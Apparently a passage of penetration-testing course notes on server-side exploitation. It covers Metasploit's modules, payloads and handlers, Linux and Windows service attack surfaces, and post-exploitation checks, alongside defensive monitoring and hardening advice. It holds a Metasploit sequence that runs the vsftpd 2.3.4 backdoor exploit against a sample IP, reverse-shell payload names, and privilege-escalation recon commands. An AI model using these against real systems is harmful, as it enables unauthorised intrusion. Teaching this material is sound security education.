# Unit - 2
:::info[TITLE]
## Server-Side Exploitation
:::

## 1. Server-Side Exploitation Fundamentals

Server-side exploitation is the disciplined process of identifying, validating, and taking advantage of security vulnerabilities located within server software, daemon processes, or network services.



### 1.1 Core Concept of Server-Side Exploitation

#### 1.1.1 Target Service Exploitation Mechanics
Unlike client-side attacks that require user interaction (such as phishing, clicking malicious links, or executing rogue macro documents), server-side exploitation directly targets services listening on open ports. The attacker interacts directly with the exposed daemon over the network to trigger abnormal behavior or gain remote code execution.

#### 1.1.2 Primary Assessment Objectives
During an authorized penetration test or security audit, the primary goals of server-side exploitation are:
- Verifying whether identified vulnerabilities are practically exploitable.
- Determining the exact security context and privileges granted upon initial entry.
- Demonstrating the operational and business impact of an unpatched service.
- Providing evidence-backed remediation recommendations to help defenders patch weaknesses.

### 1.2 Server Attack Surface

#### 1.2.1 Multi-Service Exposure Model
Enterprise servers often host multiple concurrent services to support business functions:



#### 1.2.2 The Attack Surface Axiom

:::important[CORE SECURITY AXIOM]
**Every exposed network service represents an expansion of the attack surface.** A system is only as secure as its most vulnerable listening service.
:::

- Even if the host operating system is fully patched, an outdated third-party web application or misconfigured FTP server can provide an attacker with an initial foothold.
- Unnecessary, legacy, or default services should be disabled or firewalled to minimize the reachable attack surface.

## 2. Exploitation Methodology & Lifecycle

Server exploitation follows a disciplined, multi-phase lifecycle to ensure repeatability, safety, and thorough coverage.



### 2.1 The 10-Step Exploitation Chain

#### 2.1.1 Phase Breakdown
1. **Reconnaissance:** Identify live IP addresses, subnets, and hostnames within the authorized scope.
2. **Service Discovery:** Scan open TCP and UDP ports across target systems using tools like Nmap.
3. **Version Identification:** Probe listening services to extract exact banner strings and software release versions.
4. **Vulnerability Identification:** Map identified software versions to public vulnerabilities (CVEs) and security advisories.
5. **Exploit Selection:** Identify and review matching exploit modules within Metasploit.
6. **Target Configuration:** Configure network targets (`RHOSTS`, `RPORT`) and select the appropriate payload.
7. **Exploit Attempt:** Transmit the exploit payload to test for remote vulnerability triggers.
8. **Session Verification:** Confirm the establishment of a functional command shell or Meterpreter session.
9. **Post-Exploitation:** Evaluate privilege context, enumerate local storage, and assess lateral movement risks.
10. **Evidence & Reporting:** Document technical reproduction steps, exploit proof-of-concept (PoC), and mitigation controls.

#### 2.1.2 Pre-Exploitation Intelligence Requirements
Before launching any exploit, the tester must gather and verify the following operational data:

| Parameter | Operational Description | Metasploit Configuration Target |
|---|---|---|
| **Target IP Address** | The routable IP address of the target machine | `RHOSTS` |
| **Open Ports** | The active network port listening for connections | `RPORT` |
| **Running Service** | The application daemon handling network traffic | Exploit category (e.g., FTP, SMB, HTTP) |
| **Service Version** | Exact software release and patch build | Exploit module selection |
| **Operating System** | Underlying OS kernel (Linux, Windows, Unix) | Target index (`set TARGET <index>`) |
| **System Architecture** | CPU architecture (x86, x64, ARM, MIPS) | Payload platform (`payload/...`) |
| **Exploit Compatibility** | Verification that the vulnerability matches target state | `check` command |
| **Required Variables** | Listener endpoints, credentials, URIs | Module options (`show options`) |

:::tip[EXAM TIP: ETHICAL EXPLOITATION PRINCIPLE]
**Do not exploit what you have not understood.** Blindly running exploit code against production systems risks service crashes, kernel panics, or unintended data corruption.
:::

## 3. Metasploit Exploitation Architecture

The Metasploit Framework organizes its components into modular layers that separate exploit delivery logic from post-access payloads and listeners.



### 3.1 Framework Components

#### 3.1.1 Exploit Module
An exploit module encapsulates the specific sequence of instructions, memory offsets, or protocol commands required to trigger a known software vulnerability.
- Exploit modules depend on the specific application version, target operating system, memory layout, and service configuration.
- **Role:** Obtains arbitrary execution or memory control on the remote system.

#### 3.1.2 Payload Module
A payload defines the code that executes on the remote machine *after* the exploit successfully hijacks execution control:
- **Command Execution Payloads:** Run a single system command (e.g., adding a local administrative user).
- **Interactive Shell Payloads:** Open a basic operating system command line (e.g., `/bin/sh` or `cmd.exe`).
- **Meterpreter Payloads:** Inject an in-memory reflective stage providing advanced post-exploitation capabilities.

#### 3.1.3 Exploit vs. Payload Comparative Analysis

| Feature | Exploit Module | Payload Module |
|---|---|---|
| **Core Purpose** | Targets and triggers a specific software vulnerability | Executes post-compromise commands and manages sessions |
| **Primary Function** | Gains execution flow or memory control | Executes desired functionality after control is achieved |
| **Dependency** | Depends on specific application software bugs | Depends on target operating system and CPU architecture |
| **Specificity** | Usually specific to a single CVE or service bug | Highly reusable across hundreds of different exploits |
| **Options** | Typically fixed per target application | Configurable (e.g., inline, staged, reverse, bind) |

#### 3.1.4 Handler Subsystem
The handler (`exploit/multi/handler`) is a persistent background listener that waits for, accepts, and manages incoming payload connections.
- **`LHOST`:** The local IP address of the tester's machine where the target payload should connect.
- **`LPORT`:** The local listening port (e.g., 4444, 443, 80) mapped to the handler.
- **Defensive Significance:** Outbound connections from internal servers to external listener IPs represent a key telemetry source for detecting command-and-control activity.

### 3.2 Basic Exploitation Workflow in Metasploit



Metasploit console commands follow a structured, step-by-step sequence:
```bash
# Step 1: Discover available exploit modules
msf6 > search vsftpd

# Step 2: Select the desired module
msf6 > use exploit/unix/ftp/vsftpd_234_backdoor

# Step 3: Inspect module documentation and supported targets
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > info

# Step 4: Display required parameters
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > show options

# Step 5: Configure target IP address
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 192.168.1.100

# Step 6: Verify target vulnerability status (where supported)
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > check

# Step 7: Launch the exploit
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > run
```

## 4. Exploiting a Linux Server

Linux servers are widely deployed across enterprise data centers, cloud infrastructure, and hosting environments, exposing various network daemons and administrative services.



### 4.1 Linux Server Attack Surface

| Service / Port | Primary Function | Potential Attack Surface & Vulnerability Vectors |
|---|---|---|
| **FTP (TCP 21)** | File transfer and storage | Anonymous read/write access, hardcoded credentials, buffer overflows, backdoors (e.g., vsftpd 2.3.4) |
| **SSH (TCP 22)** | Encrypted remote terminal | Weak or default credentials, exposed root login, outdated versions, leaked private keys |
| **HTTP/HTTPS (80/443)** | Web applications and REST APIs | Remote code execution, SQL injection, insecure file uploads, command injection in web scripts |
| **Samba / SMB (139/445)** | Network file sharing | Remote command execution flaws (e.g., SambaCry / CVE-2017-7494), misconfigured open shares |
| **Databases (3306, 5432)** | Data storage daemons | Weak root passwords, unauthenticated remote access, user-defined function (UDF) code execution |
| **Custom Services** | Proprietary applications | Insecure deserialization, unvalidated input, race conditions, memory corruption bugs |

### 4.2 Linux Service Enumeration

Service enumeration gathers detailed configuration data about exposed services before exploitation:
- **Port Status:** Discover which TCP and UDP ports accept connections.
- **Service & Daemon Names:** Differentiate between web daemons (Apache vs. Nginx) and file daemons (vsftpd vs. ProFTPD).
- **Banner Grabbing:** Capture protocol headers to identify exact software version strings.
- **Authentication Requirements:** Determine whether services permit anonymous or unauthenticated access.
- **Vulnerability Mapping:** Cross-reference enumerated version strings against vulnerability databases.

```bash
# Example Nmap service detection sweep targeting a Linux host
nmap -sV -sC -p 21,22,80,443,445,3306 192.168.1.100
```

### 4.3 Exploiting Common Linux Daemons

#### 4.3.1 FTP Server Exploitation
- **Port:** TCP 21 (control channel) and TCP 20 / passive ports (data transfer).
- **Vulnerability Scenarios:**
  - *Anonymous Logins:* Misconfigurations allowing file write access to web root directories.
  - *Software Backdoors:* Deliberately backdoored packages (e.g., vsftpd 2.3.4, where sending a `:)` smiley in the username opened a root shell on TCP port 6200).
  - *Memory Corruption:* Buffer overflows in legacy FTP daemons allowing remote shellcode execution.

#### 4.3.2 SSH Service Security Profile
- **Port:** TCP 22.
- **Security Assessment:** SSH is not inherently vulnerable simply because it is exposed. Its cryptographic design protects authentication traffic in transit.
- **Exploitation Vectors:**
  - Password guessing or dictionary attacks against accounts using weak passwords.
  - Misconfigured password authentication when private key pairs are required.
  - Leaked or world-readable SSH private keys (`id_rsa`).
  - Outdated OpenSSH versions vulnerable to specific memory corruption bugs (e.g., regreSSHion / CVE-2024-6387).

#### 4.3.3 Linux Web Server Exploitation
- Web applications hosted on Linux often serve as the primary entry point:
  - **Insecure File Upload:** Uploading a malicious PHP web shell directly into an accessible web directory.
  - **Command Injection:** Passing unsanitized shell metacharacters into system utilities called by web applications.
  - **Framework Vulnerabilities:** Exploiting deserialization flaws or remote code execution in web frameworks (e.g., Struts, Drupal, Laravel).



### 4.4 Linux Payload Selection

Payload selection must match the target's operating system, CPU architecture, and network environment:
- **Architecture Compatibility:** Using a 64-bit payload (`linux/x64/...`) against a 32-bit binary causes immediate execution crashes.
- **Available Tooling:** Payloads that rely on system utilities (such as Python, Perl, or Bash) require those interpreters to be installed on the target.
- **Common Linux Payloads:**
  - `linux/x64/meterpreter/reverse_tcp`: Provides a staged, in-memory Meterpreter shell over raw TCP.
  - `linux/x64/meterpreter/reverse_https`: Wraps session traffic in TLS to bypass corporate proxy filters.
  - `linux/x64/shell_reverse_tcp`: An inline payload that directly spawns a `/bin/sh` interactive shell.

## 5. Linux Privilege Context & Post-Exploitation

Gaining an initial session on a Linux server does not guarantee administrative control over the host.



### 5.1 The Principle of Privilege Separation

:::important[CORE SECURITY PRINCIPLE]
**Initial access $\neq$ Administrative control.** Network daemons (such as Apache, Nginx, or MySQL) should run under dedicated, low-privileged service accounts (`www-data`, `nobody`, `daemon`) to contain the impact of an exploit.
:::

- If an attacker compromises a web application running as `www-data`, the shell cannot modify system binaries, read shadow passwords, or alter system configurations without further privilege escalation.
- If a service runs directly as `root` (UID 0), any successful exploit results in an immediate, total system takeover.

### 5.2 Linux Session Verification

Immediately after establishing a session, the tester must verify the active operational context using native commands:
- **`getuid` / `id`:** Reveals current user ID (UID), group ID (GID), and group memberships.
- **`sysinfo` / `uname -a`:** Displays operating system kernel release, hostname, and CPU architecture.
- **`pwd` / `whoami`:** Confirms the current working directory and effective username.
- **`ifconfig` / `ip a`:** Enumerates internal network adapters and isolated subnets.

### 5.3 Linux Post-Exploitation Assessment

Once initial access is established, the authorized tester systematically audits the environment:
- **System Spec:** Kernel version, OS distribution, release build.
- **User Accounts:** Inspect `/etc/passwd` for valid shell users and user UID numbers.
- **File Permissions:** Identify world-writable files, unquoted paths, or exposed configuration credentials.
- **Privilege Vectors:** Review `sudo -l` permissions, misconfigured SUID binaries (`find / -perm -u=s 2>/dev/null`), and scheduled tasks in `/etc/crontab`.
- **Network Connections:** Run `netstat -tlpn` or `ss -tulpn` to discover internal services listening only on loopback (`127.0.0.1`).

## 6. Exploiting a Windows Machine

Windows systems are widely used in enterprise networks, running domain services, central databases, and administrative consoles.



### 6.1 Windows Server Exploitation Vectors

#### 6.1.1 Target Services
- **Server Message Block (SMB - Port 445):** Core Windows file-sharing protocol; a frequent target of high-impact memory corruption and authentication exploits.
- **Remote Desktop Protocol (RDP - Port 3389):** Native graphical management interface susceptible to credential brute-forcing, pass-the-hash attacks, and pre-authentication vulnerabilities.
- **Windows Remote Management (WinRM - Ports 5985/5986):** PowerShell remoting management endpoint; exploitable via credential reuse and misconfigured authentication.
- **Internet Information Services (IIS - Ports 80/443):** Microsoft web server hosting ASP.NET applications, WebDAV extensions, and enterprise portals.

#### 6.1.2 Windows Exploitation Lifecycle
Exploiting Windows follows the same general phases as other platforms, with additional steps to account for Windows-specific defensive controls:
1. **Host Discovery:** Ping sweeps and ARP enumeration.
2. **Port Scanning:** Discover open Windows management ports.
3. **Service & Build Identification:** Enumerate Windows OS build (e.g., Windows Server 2019 Build 17763).
4. **Vulnerability Analysis:** Evaluate missing security patches (KB updates) and service vulnerabilities.
5. **Exploit Selection:** Load matching exploit modules in Metasploit.
6. **Payload Selection:** Configure a matching architecture-specific payload (e.g., `windows/x64/meterpreter/reverse_tcp`).
7. **Exploit Execution:** Launch the attack to trigger the vulnerability.
8. **Session Management:** Verify the session, evaluate the security context, and migrate to a stable process.

### 6.2 SMB Service Architecture & Exploitation

#### 6.2.1 Operational Role
The SMB service provides inter-process communication (via named pipes), file sharing, and remote service control across Windows networks.



#### 6.2.2 Historical Exploits & Vulnerability Classes
- **Buffer Overflows & Memory Corruption:** Flaws in SMB packet parsing engines that allow unauthenticated remote code execution with system-level privileges (e.g., MS08-067, EternalBlue / MS17-010).
- **SMB Relay Attacks:** Intercepting and relaying NetNTLM authentication handshakes to compromise adjacent servers without cracking passwords.
- **Null / Guest Session Exposure:** Reading share contents and user lists over unauthenticated SMB sessions.

#### 6.2.3 Defensive Monitoring for SMB Exploitation
Security Operations Centers (SOC) monitor SMB activity for key indicators of compromise:
- **Anomalous Source Hosts:** Workstation-to-workstation SMB traffic that deviates from normal baselines.
- **Repeated Authentication Failures:** Event ID 4625 indicating brute-force or password-spraying attempts.
- **Suspicious Named Pipe Creation:** Malicious software creating named pipes for internal C2 communication.
- **Abnormal Process Spawning:** The SMB service (`svchost.exe` or `system`) spawning command shells (`cmd.exe`, `powershell.exe`).

### 6.3 Remote Desktop Protocol (RDP) Security

#### 6.3.1 Service Profile
- **Port:** TCP port 3389 (and optional UDP 3389).
- **Functionality:** Provides full graphical remote desktop access to Windows environments.

#### 6.3.2 RDP Attack Vectors & Vulnerability Profiles
- **Weak or Default Credentials:** Weak passwords exposed to automated Internet-wide scanning.
- **Missing Account Lockouts:** Systems that allow unlimited password guesses without locking accounts.
- **Pre-Authentication Remote Code Execution:** Flaws in RDP's pre-authentication channel handling (e.g., BlueKeep / CVE-2019-0708).
- **Pass-the-Hash over RDP:** Using stolen NTLM hashes to authenticate to RDP via Restricted Admin Mode without needing the cleartext password.

#### 6.3.3 Defensive Controls for RDP Hardening
- **Network Level Authentication (NLA):** Requires authentication *before* establishing an RDP session, mitigating pre-authentication exploits.
- **Multi-Factor Authentication (MFA):** Requires a secondary authentication factor for remote access.
- **Firewall & Network Restrictions:** Restricts port 3389 access to authorized jump hosts and management subnets.
- **Account Lockout Policies:** Enforces account lockouts after a small number of consecutive failed login attempts.

### 6.4 Windows Payloads & Architecture Alignment

#### 6.4.1 Architecture Requirements
Windows payloads must match the target operating system's CPU architecture and process bitness:
- Injecting a 32-bit payload (`windows/meterpreter/...`) into a 64-bit process causes crashes or triggers Windows Defender memory alerts.
- A 64-bit target requires a native 64-bit payload (`windows/x64/meterpreter/...`).

#### 6.4.2 Staged vs. Inline Payloads
- **Staged Payloads (e.g., `windows/x64/meterpreter/reverse_tcp`):** A compact stager payload is sent first to allocate memory, download the larger Meterpreter stage, and inject it into RAM.
- **Inline / Stageless Payloads (e.g., `windows/x64/meterpreter_reverse_tcp`):** The entire Meterpreter payload is transmitted in a single payload binary, eliminating secondary network downloads.

## 7. Windows Services and Attack Surface

Managing Windows server attack surfaces requires tracking standard management ports, associated daemons, and potential security weaknesses.

### 7.1 Port and Service Matrix

| Service | Default Port | Transport | Associated Windows Daemon | Common Security Weaknesses |
|---|---|---|---|---|
| **FTP** | 21 | TCP | Microsoft FTP Service / IIS | Weak credentials, anonymous uploads, cleartext traffic |
| **HTTP** | 80 | TCP | World Wide Web Publishing (`w3wp.exe`) | Application logic flaws, web shell uploads, path traversal |
| **HTTPS** | 443 | TCP | World Wide Web Publishing (`w3wp.exe`) | Encrypted web application bugs, API logic vulnerabilities |
| **SMB** | 445 | TCP | LanmanServer (`svchost.exe` / `System`) | Remote code execution, SMB relay, exposed administrative shares |
| **WinRM** | 5985 / 5986 | TCP | Windows Remote Management (`wsmprovhost.exe`) | Credential re-use, pass-the-hash, brute-force exposure |
| **RDP** | 3389 | TCP/UDP | Terminal Services (`TermService` / `svchost.exe`) | Brute-force attacks, BlueKeep, unauthenticated session hijacking |

:::note[PORT IDENTIFICATION RULE]
**Port numbers identify services, but do not prove vulnerability.** An open port confirms only that a service is listening. The service is only vulnerable if it runs outdated software or contains specific configuration flaws.
:::

### 7.2 Windows Privilege Context

The impact of compromising a Windows host depends heavily on the security token obtained upon initial access:



- **Standard User (`DOMAIN\User`):** Limited to reading personal user folders; cannot install system services or modify system-wide registry keys.
- **Administrator (`DOMAIN\Administrator`):** Full administrative privileges, though operations may still be constrained by User Account Control (UAC).
- **`NT AUTHORITY\SYSTEM`:** The most privileged local context in Windows. Has unrestricted access to local system resources, process memory, and security hives.

## 8. Exploiting Common Services

Different server daemons expose distinct operational mechanics and vulnerability classes.



### 8.1 Detailed Service Breakdown

#### 8.1.1 FTP (File Transfer Protocol)
- **Primary Weaknesses:** Transmits credentials in plaintext; anonymous read/write permissions; legacy server backdoors; directory traversal in file handlers.
- **Detection Telemetry:** Monitor for spikes in failed authentication attempts, unusual source IP addresses, unauthorized directory traversals, and anomalous file upload patterns.

#### 8.1.2 SSH (Secure Shell)
- **Primary Weaknesses:** Weak passwords vulnerable to brute-force attacks; exposed private keys; outdated software builds.
- **Defensive Safeguards:** Enforce public key authentication, disable root password logins, configure rate limiting, and restrict access through firewalls.

#### 8.1.3 HTTP / HTTPS Web Services
- **Primary Weaknesses:** Insecure direct object references (IDOR), SQL injection, deserialization flaws, path traversal, and unauthenticated remote code execution.
- **Attack Flow:**
